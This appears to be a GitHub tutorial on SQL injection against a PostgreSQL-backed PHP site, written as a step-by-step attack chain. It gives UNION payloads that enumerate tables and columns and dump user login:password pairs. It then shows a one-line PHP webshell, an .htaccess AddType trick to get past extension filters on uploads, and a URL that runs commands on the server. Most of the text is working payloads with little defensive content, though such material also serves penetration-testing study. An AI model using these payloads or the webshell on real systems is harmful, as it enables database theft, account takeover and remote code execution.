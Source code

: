 
# Detection And Exploitation of SQL Injection
<hr>

This is the error message you get which tells you it is vulnerable to sqli
```vb
Warning: pg_exec(): Query failed: ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ in /var/www/classes/picture.php on line 17 ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ 
```
-----------------------

# Exploitation of SQL injection
<hr>

To do this the union attack can be used. So, we can have a query like this
```sql
UNION SELECT 1,2,3--
```
-------------------------------------

# Exploiting SQL injection with UNION on Postgresql
<hr>

Like for MySQL, exploiting SQL injections using `UNION` follows the steps

```
Find the number of columns to perform the UNION
Find a column with the right type to get information echoed in the page
Retrieve information from the database meta-tables
Retrieve information from other tables/databases
```

There are 2 methods to get the number of columns present
```
using `UNION SELECT` and increase the number of columns
using `ORDER BY` statement
```

----------------------------------

# Retrieving Information
<hr>

Now that we know the number of columns, we can retrieve information from the database. 

Compared to MySQL, PostgreSQL requires one step to get the  `UNION` statement to work properly: the columns need to be of the same type between the two queries and the first query decided what type.

If we used the query
```sql
1 UNION SELECT 1,2,3,4
```
We can see the error message displayed
```sql
Warning: pg_exec(): Query failed: ERROR: UNION types character varying and integer cannot be matched
```

To avoid this error we can replace `1,2,3,4` with `null,null,null,null` . So to test for vulnerable columns we can do something like this
```sql
1 UNION SELECT 'test',null,null,null
```
We test this until we get the vulnerable  column. If we find the vulnerable columns we can run stuffs like `version()` and `current_user` and `current_database()`

To retrive tablename from postgresql
```sql
SELECT tablename FROM pg_tables
```
To retrieve columnname
```sql
SELECT column_name FROM information_schema.columns
```

Full query
```sql
1 UNION SELECT null,tablename,null,null FROM pg_tables
1 UNION SELECT null,column_name,null,null FROM information_schema.columns
```

If the `information_schema.columns` stores table names then to retrieve the information
```sql
1 UNION SELECT null,table_name,column_name,null,null FROM information_schema.columns
```
We can also concatenate the table_name and column_name using the `||` operator
```sql
1 UNION SELECT null,table_name||':'||column_name,null,null FROM information_schema.columns
```

Using this information one can go ahead to build a query to retrieve informtation from this table
```sql
1 UNION SELECT null,login||':'||password,null,null FROM users;
```
------------------------------

# Access to the Administration Pages  and Code Execution
<hr>

For this we can crack the password we got from the database so we can log in as the administrator user

<h4>Uploading a Webshell and Code Execution</h4>
Once we have access to the administration page, we can go ahead and look for a way to execute commands on the operating system

If there is an upload function,then we can go ahead to upload a php script

We can use a webshell as simple as this
```php
<?php system($_GET['cmd']); ?>
```
If the upload functionality doesn't allow `.php` extensions we can go on to try other stuffs. The goal is to look for ways to get command injection

-------------------------------

# Introduction to .htaccess
<hr>

`.htaccess` are used to perform per-directory modification of the Apache configuration. They can be extremely dangerous if you can upload one that get interpreted by the server.

The most common way to gain commands execution is to add a handler for an arbitrary extention
```
AddType application/x-httpd-php .blah
```
This line will tell Apache to interpret file with the extension `.blah` using the php engine. Since `.blah` files are less likely to be filtered by the application

Once we have uploaded the `.htaccess` file with the content above. We can now rename our file `shell.php` to `shell.blah` and upload

With this we can get commands execution execution

----------------------------

# Getting commands Execution
<hr>

We can execute our script by doing this
```
http://example.com/admin/uploads/shell.blah?cmd=id
```

With this we get the command code execution which eventually leads to RCE(Remote Code Execution)












